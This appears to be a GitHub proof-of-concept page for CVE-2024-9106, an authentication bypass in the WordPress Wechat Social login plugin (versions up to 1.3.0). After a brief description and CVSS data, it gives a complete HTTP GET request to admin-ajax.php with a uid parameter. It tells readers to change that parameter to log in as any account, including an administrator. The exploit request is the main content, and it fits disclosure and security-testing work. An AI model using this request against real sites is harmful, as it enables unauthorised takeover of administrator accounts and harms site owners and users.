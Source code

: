 # CVE-2024-9106
Wechat Social login &lt;= 1.3.0 - Authentication Bypass

# Description:
The Wechat Social login plugin for WordPress is vulnerable to authentication bypass in versions up to, and including, 1.3.0. This is due to insufficient verification on the user being supplied during the social login. This makes it possible for unauthenticated attackers to log in as any existing user on the site, such as an administrator, if they have access to the user id. This is only exploitable if the app secret is not set, so it has a default empty value. Just add uid=1 or change the id number to the account you want to login in as. Only works for wechat.


```
CVE: CVE-2024-9106
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: wechat-social-login
```


POC
---

```
GET /wp-admin/admin-ajax.php?channel_id=social_weibo&action=xh_social_channel&uid=1&tab=login_redirect_to_authorization_uri&xh_social_channel=8e7bec203c&notice_str=1773207877&hash=4165e284f73b86c0c642973816d0cd17&redirect_to=http%3A%2F%2Fkubernetes.docker.internal%2Fwp-admin%2F HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```
